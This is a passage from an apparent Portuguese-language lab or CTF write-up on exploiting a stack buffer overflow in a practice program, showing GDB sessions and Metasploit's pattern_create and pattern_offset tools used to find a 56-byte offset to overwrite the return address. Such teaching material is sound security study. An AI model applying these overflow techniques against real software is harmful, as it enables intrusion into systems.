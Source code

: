 Conforme observado, o programa parou com o erro `segmentation fault`. Se o proximo comando a ser executado, que se encontra no topo da pilha, for consultado, pode-se verificar que ele está preenchido com `0x4141414141414141` (41= A em hexadecimal). O **RSP** pode ser consultado com o comando `x/gx $rsp`.

```bash
gdb-peda$ x/gx $rsp
0x7fffffffded8: 0x4141414141414141
```

### Encontrando o offset

Através da análise do código fonte, é possível identificar que o *buffer* alocado para a função `vuln` é de 40 bytes, porém, devido aos movimentos de registradores, o buffer para se atingir o **RSP** é diferente. Para se descobrir o *offset* para atingir o endereço desejado, é preciso enviar para o programa um **ciclic pattern**, ou seja, uma cadeia de caracteres que pode ser rastreado para identificarmos o endereço correto.
Para criar este *ciclic pattern*, podemos utilizar o programa `msf-pattern_create` da suide *Metasploit Framework*.

```bash
$ msf-pattern_create -l 80
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac
```

Este comando cria um *ciclic pattern* de 80 bytes que pode ser enviado para o programa sendo executado no GDB.

```bash
gdb-peda$ continue
Continuing.
Me alimente: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac
Vc escreveu: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab
7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
```
Ao consultar o endereço de **RSP** que causou o erro no programa, é possível encontrar os bytes resultantes.

```bash
gdb-peda$ x/gx $rsp
0x7fffffffded8: 0x4130634139624138
```

Com o endereço resultante é possível utilizar o programa *msf-pattern_offset*, também da suite *Metasploit Framework*, para consultar o *offset* resultante do endereço.

```bash
$ msf-pattern_offset -l 80 -q 0x4130634139624138
[*] Exact match at offset 56
```

O *offset* para atingir **RIP** é de 56 bytes. Pode-se testar este *offset* ao enviar novamente um *buffer* para o programa sendo executado no GDB, contndo 56 letras A e 8 letras B. Ao consultar o endereço resultante em **RSP**, ele estará preenchido com o valor `0x4242424242424242` (42 = B em hexadecimal).

